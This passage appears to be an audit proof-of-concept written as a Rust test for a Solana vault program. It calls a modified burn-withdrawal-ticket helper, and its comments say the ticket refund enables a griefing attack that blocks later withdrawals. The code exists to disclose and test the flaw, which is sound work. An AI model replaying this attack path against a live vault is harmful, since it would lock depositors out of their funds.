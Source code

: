 ```rs
            .unwrap();

        fixture
            .warp_slot_incremental(config.epoch_length())
            .await
            .unwrap();
        vault_program_client
            .do_full_vault_update(
                &vault_root.vault_pubkey,
                &[operator_roots[0].operator_pubkey],
            )
            .await
            .unwrap();
        fixture
            .warp_slot_incremental(config.epoch_length())
            .await
            .unwrap();
        vault_program_client
            .do_full_vault_update(
                &vault_root.vault_pubkey,
                &[operator_roots[0].operator_pubkey],
            )
            .await
            .unwrap();

        // ------ modified do_burn_withdrawal_ticket ------

        vault_program_client
            .do_99crits_burn_withdrawal_ticket_with_refund(&vault_root, &depositor, &withdrawal_ticket_base.pubkey(), &config.program_fee_wallet)
            .await
            .unwrap();

        //@note this is the original call used in test_burn_withdrawal_ticket_basic_success, if you use this, re-enqueuing (below) will work
            // this shows that refunding the ticket is indeed the cause of the griefing attack
        // vault_program_client
        //     .do_burn_withdrawal_ticket(&vault_root, &depositor, &withdrawal_ticket_base.pubkey(), &config.program_fee_wallet)
        //     .await
        //     .unwrap();

        let vault = vault_program_client
            .get_vault(&vault_root.vault_pubkey)
            .await
            .unwrap();
        assert_eq!(vault.tokens_deposited(), 90000); //@note changed from original, since we dont withdraw all
        assert_eq!(vault.vrt_supply(), 90000); //@note changed from original, since we dont withdraw all
        // assert_eq!(vault.delegation_state, DelegationState::default()); //@note commented out, since we dont withdraw all
        assert_eq!(vault.vrt_enqueued_for_cooldown_amount(), 0);
        assert_eq!(vault.vrt_ready_to_claim_amount(), 0);
        assert_eq!(vault.vrt_cooling_down_amount(), 0);

        let depositor_token_account = fixture
            .get_token_account(&get_associated_token_address(
                &depositor.pubkey(),
                &vault.supported_mint,
            ))
            .await
            .unwrap();
```